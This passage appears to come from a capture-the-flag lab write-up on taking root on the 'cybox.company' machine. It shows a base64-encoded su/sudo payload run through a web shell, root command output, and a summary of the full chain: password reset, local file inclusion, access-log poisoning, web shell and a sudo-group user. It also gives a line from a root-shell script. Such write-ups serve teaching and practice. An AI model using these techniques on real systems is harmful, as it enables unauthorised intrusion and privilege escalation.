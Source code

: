 ```shell
```
Then now I modify the payload to run the `sudo` user with `sudo` privileges, and I use the `-S` switch to read the password from `STDIN`:
```shell
$ echo "(sleep 1; echo sudo) | python -c \"import pty;
> pty.spawn(['/bin/su','sudo','-c','echo sudo | sudo -S id']);\"" | \
> base64 -w 0

KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk7IHB0eS5zcGF3
bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdlY2hvIHN1ZG8gfCBzdWRvIC1TIGlkJ10pOyIK
```
When I use that output in the web shell:
```shell
$ daemon$ echo KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk
> 7IHB0eS5zcGF3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdlY2hvIHN1ZG8gfCBzdWRvIC
> 1TIGlkJ10pOyIK | base64 -d | bash

Password:
[sudo] password for sudo: uid=0(root) gid=0(root) groups=0(root)
```
Then I can get the root flag:

![evidence](./static/21-censored-rootflag.png)



## Maintaining access
Given I can access `monitor.cybox.company`, and I can restore the password of the admin account, and with that, I can perform an LFI, and I can read the custom `access_log` used on the `ftp` vhost, and that allows me to perform a server log poison attack, and I can create a web shell with the user `daemon`, and on the server, I can run a binary to create server users, and I can create users with the system group names, and the created user will belong to that system group, and that allows me to be user `sudo` and belong to group `sudo`, and with that escalate privileges to the root user, but that connection is unstable because it depends on the `access_log` file, and on multiple occasions, I break that file, and if it does not break, after each command it will be slower, and that happens because `access_log` saves all previous commands, and at each run, it runs all over again, then I create a script shell [webshellroot](./static/webshellroot.py), and where I perform all the necessary processes to create the root shell, and I also clean the `acces_log` file after running a command, and to clean it up properly, I have to use a double backslash on line 61:
```python
61 cmd = f"su - -c \\'> {access_log}\\'"
```
When I run the [webshellroot.py](./static/webshellroot.py) script:
```shell
$ python3 webhellroot.py
```
Then it simulates an interpretation terminal, and run commands as the root user :
